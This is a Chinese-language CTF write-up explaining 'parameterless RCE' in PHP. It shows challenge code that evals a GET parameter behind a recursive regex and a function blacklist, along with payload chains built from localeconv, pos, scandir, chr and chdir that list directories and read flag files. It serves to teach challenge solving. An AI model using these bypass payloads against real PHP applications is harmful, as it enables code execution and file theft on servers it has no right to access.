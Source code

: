 # 关于CTF当中的无参数RCE

最近打了一场校内的比赛，又遇到了无参数RCE。

所以记录一下无参数rce的做法

## 什么是无参数

首先先看这个正则表达式`/[^\W]+\((?R)?\)/`

这个正则是对`()`的一个循环匹配，从传过来的参数当中进行匹配，匹配字母、数字、下划线，然后再匹配一个循环的`()`，将匹配的替换为空，判断剩下的是否只剩下`;`。

也就是说括号当中不能含有参数，这就是无参数。

## 例一：

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
?> 
```

这道题就是一道无参数RCE的题，只是没有对函数进行过滤

无参数的题最重要的就是如何构造出`.`

**localeconv()**

localeconv() 函数返回一包含本地数字及货币格式信息的数组，且第一个元素为点（.)。

![image-20210410180114692](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180114692.png)

**pos()**

pos() 函数返回数组中的当前元素的值（取第一个元素）。

![image-20210410180209879](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180209879.png)

这样就构造出`.`来了

**scandir()**

scandir() 函数返回指定目录中的文件和目录的数组。

![image-20210410180639310](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410180639310.png)

这样就可以查看目录下的文件了

```
?code=var_dump(scandir(pos(localeconv())));
```

![image-20210410181254178](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181254178.png)

再利用end函数就可以将数组指针指向最后

![image-20210410181406631](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410181406631.png)

**读取文件**

readfile — 输出文件

highlight_file — 语法高亮一个文件

show_source — 别名highlight_file()

file_get_contents — 将整个文件读入一个字符串

**readgzfile（）**可用于读取非gzip格式的文件。在这种情况下， **readgzfile（）**将直接从文件读取而不进行解压缩。

## 例二：

```php
<?php
if ($login && isset($_GET['code'])) {
    if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
        if (!preg_match('/highlight_file|localeconv|pos|curret|chdir|localtime|time|session|getallheaders|system|array|implode/i', $_GET['code'])) {
            eval($_GET['code']);
        } else {
            echo "含有危险函数" . "<br/>";
        }
    } else {
        echo "不符合正则表达式" . "<br/>";
    }
}
?>
```

这一题过滤掉了很多的函数

不能用`localeconv`来构造`.`了

**chr()**

chr() 函数从指定的 ASCII 值返回字符。

利用这个函数只要构造出`46`来就可以构造出`.`了

![image-20210410193718817](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410193718817.png)

phpversion()会返回php版本，如`5.6.27`

```
floor(phpversion())`返回`5
sqrt(floor(phpversion()))`返回`2.2360679774998
tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615
cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491
sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156
ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46
```

即：`chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`等于`.`

还有一个方法也可以构造出`.`来

```
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

- `hebrevc(crypt(arg))`可以随机生成一个hash值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过ord chr只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。

**hebrevc()**：将逻辑顺序希伯来文（logical-Hebrew）转换为视觉顺序希伯来文（visual-Hebrew），并且转换换行符，返回视觉顺序字符串。

不过这个办法不是每一次都能构造出来

![image-20210410194214795](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194214795.png)

![image-20210410194224286](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210410194224286.png)

需要多试几次才行

## 其他构造方法

- 利用三角函数构造斜杠

```
chr(floor(tan(tan(atan(atan(ord(cos(fclose(tmpfile())))))))));
```

- 利用随机令牌构造点

```none
echo(implode(scandir(chr(strrev(uniqid())))));
```

- 利用当前秒数构造点

```
chr(pos(localtime()));
```

## 其他情况

如果文件不在数组的最后，而是在别的位置则可以利用这些函数

`array_rand()`-返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。

`array_reverse()`-以相反的元素顺序返回数组

`current() `- 返回数组中的当前元素的值

`end()`- 将内部指针指向数组中的最后一个元素，并输出

`next()`- 将内部指针指向数组中的下一个元素，并输出

`prev() `- 将内部指针指向数组中的上一个元素，并输出

`reset()` - 将内部指针指向数组中的第一个元素，并输出

`each() `- 返回当前元素的键名和键值，并将内部指针向前移动



- 假设flag在上层目录文件的情况，我们需要跳转到上层目录。
- `chdir()`函数当参数为两个点的时候能够跳转到上层目录。`scandir()`，读取当前目录在第二个元素就能读取两个点
- localtime第一个参数是时间戳，所以我们不能直接嵌套，需要带一个time函数作为嵌套、time函数能够返回时间戳
- 构造读取上层目录payload

```
echo(implode(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv())))))))))));
```

- 构造读取上层目录文件payload

```
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(pos(localeconv()))))))))))));
```


